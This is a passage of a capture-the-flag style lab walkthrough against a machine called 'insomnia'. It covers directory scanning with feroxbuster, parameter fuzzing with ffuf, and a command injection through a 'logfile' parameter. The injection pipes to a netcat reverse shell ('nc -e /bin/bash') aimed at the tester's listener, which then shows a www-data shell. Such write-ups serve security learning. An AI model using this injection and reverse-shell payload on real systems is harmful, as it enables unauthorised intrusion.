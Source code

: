 ```bash
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ ferox.json
 💲  Extensions            │ [php, zip, js, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       57w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      102l      216w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        1l        1w        2c http://10.0.2.114:8080/process.php
200      GET       78l      143w     1610c http://10.0.2.114:8080/chat.js
200      GET        2l       12w       65c http://10.0.2.114:8080/administration.php
```
{: .nolineno}
![](Pasted%20image%2020250628104938.png)
_Output for `process.php` file_



### Parameter Fuzzing 🔽

I used these pages for parameter fuzzing to try to find any response with a value as `id` command through <mark style="background: #FFB8EBA6;">ffuf</mark> Tool.

```bash
└─$ ffuf -c -mc 200,301,302,401 -fc 404,500,401 -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://10.0.2.114:8080/administration.php?FUZZ=id' -o ffuf_parameter_fuzz.json -fs 65 
```
{: .nolineno}
![](Pasted%20image%2020250628094347.png)
_Got the parameter key as **logfile** in this case_

I tried all the possible commands but could not able to bypass this text print out with command execution ⏬

![](Pasted%20image%2020250628105442.png)
_This is the output of the parameter value_

As a result I tried the pipe (`|`) command and observer the response as a result I got in through like this ⬇️

I got the command execution kick in like this 🔻

```
└─$ curl -s -X GET 'http://10.0.2.114:8080/administration.php?logfile=administration.php|nc+-e+/bin/bash+10.0.2.15+4444'
```
{: .nolineno}
```bash
└─$ rlwrap -icr nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.114] 53706
SHELL=/bin/bash script -q /dev/null
www-data@insomnia:~/html$ 
www-data@insomnia:~/html$ export TERM=xterm
export TERM=xterm
www-data@insomnia:~/html$ 
zsh: suspended  rlwrap -icr nc -lvnp 4444
                                                              
```